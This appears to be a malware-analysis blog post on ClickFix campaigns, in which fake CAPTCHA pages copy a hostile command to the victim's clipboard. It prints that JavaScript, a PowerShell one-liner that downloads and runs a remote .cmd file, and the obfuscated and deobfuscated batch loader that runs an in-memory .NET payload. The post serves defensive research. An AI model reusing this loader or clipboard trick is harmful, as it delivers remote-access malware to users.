








ClickFix Campaign
Introduction
In this post, I'll walk you through my investigation of ClickFix campaigns - malicious websites that use fake CAPTCHA prompts to trick users into downloading malware.
To find new malware samples, I decided to search for ClickFix campaign sites using a simple Google query:
"Please verify that you are a human to continue" "Windows"This search led me to several suspicious URLs:
- bepatriot.shop
- pay-chek.com
- human-bot-view.chalnlizt.org
- challinksch.com


Upon accessing these sites, I noticed they all used a fake CAPTCHA with malicious JavaScript. This script is triggered when you click "I'm not a robot." Here's an example of the code used:
function verifyHuman() {
const textToCopy = "powershell.exe -Command \"Start-Process powershell -ArgumentList '-NoProfile -ExecutionPolicy Bypass -Command \\\"Invoke-WebRequest -Uri https://bitbucket.org/dlo2/a/downloads/ip2.cmd -OutFile $env:TEMP\\ip2.cmd; Start-Process $env:TEMP\\ip2.cmd\\"' -NoNewWindow\"";
const tempTextArea = document.createElement("textarea");
tempTextArea.value = textToCopy;
document.body.appendChild(tempTextArea);
tempTextArea.select();
document.execCommand("copy");
document.body.removeChild(tempTextArea);
// Hide verification prompt
document.getElementById('verificationPrompt').style.display = 'none';
}This script copies a PowerShell command to your clipboard, which, if executed, downloads and runs a batch file.

The .cmd File
The PowerShell command downloads a malicious .cmd file (ip2.cmd) from a remote server. Here's a snippet of the obfuscated batch file:
@chcp 65001
set "ՀԶԹрПԸԸՑՌ=C:\Win"
set "ՎսիрգջՒլ=erShel"
:: Junk comment to confuse readers
set "ՒՎջпцП՜=/q /y "
set "ՏՒՑլՆ=l\v1.0"
set "ՁլՑՖԲՑՏՒՔ=exe %~0.Kkm"
%Пգссն%%բգЕ՜%%ГпԾՓլլժ%%....
set "ՆըԹՑԵՒ=exit"
%ՆըԹՑԵՒ%The obfuscation uses Armenian characters in variable names and includes junk comments to make the batch file difficult to read.
Analyze the .cmd File Using Our Deobfuscation Script
To deobfuscate the batch file, I wrote a Python script that extracts variable definitions and reconstructs the original commands by replacing the variables in their correct order.
Running the Deobfuscation Script
To decode and clean the files, you can run the script using the following commands:
python clean.py ip2.cmd out.bin --mode dump
python clean.py ip2.cmd ip2_clean.bat --mode deobfuscate@chcp 65001
echo F| xcopy /d/q /y/h /iC:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe %~0.Kkm
attrib+s +h%~0.Kkm
@echo off
SET Yipdqois=%~dpnx0
%~0.Kkm-WindowStylehidden -com%ՍՓцвղոջ%$Uwwhnfzrn =get-content'%Yipdqois%' | Select-Object-Last1;
$Tflxa =[System.Convert]::FromBase64String($Uwwhnfzrn);
$Hvcvcadq = New-Object System.IO.MemoryStream( ,$Tflxa);
$Jqoljilhzyy =New-Object System.IO.MemoryStream;$Ffknlzng = New-Object System.IO.Compression.GzipStream
$Hvcvcadq, ([IO.Compression.CompressionMode]::Decompress);
$Ffknlzng.CopyTo( $Jqoljilhzyy );$Ffknlzng.Close()
;$Hvcvcadq.Close()
;[byte[]] $Tflxa =$Jqoljilhzyy.ToArray()
File.Save Tflxa
;[Array]::Reverse($Tflxa); $Nvoztss =[System.AppDomain]::CurrentDomain.Load($Tflxa);$Obapl = $Nvoztss.EntryPoint;[System.Delegate]::CreateDelegate([Action], $Obapl.DeclaringType,$Obapl.Name).DynamicInvoke()| Out-%ԴмնձԶջյնр%
exit
BASE64STRINGBase64 String Reveals Executable File
After running the Python script, we get the out.bin file. Here's the process in dnSpy:

We navigate to the entry point and discover a function called ForgotAuthentication.

This function downloads an encrypted DLL and decrypts it at runtime.

We then search for the byte array and modify the function like this:


The dump.bin file is a DLL used to load malware into memory.
Payload seems to be AsyncRat and/or PureHVNC.
For those interested in a deeper analysis, you can check out these resources:
Additional Resources
If you want to prevent deceptive CAPTCHA forms and fake interactions, I created an add-on for that. You can check it out on Firefox.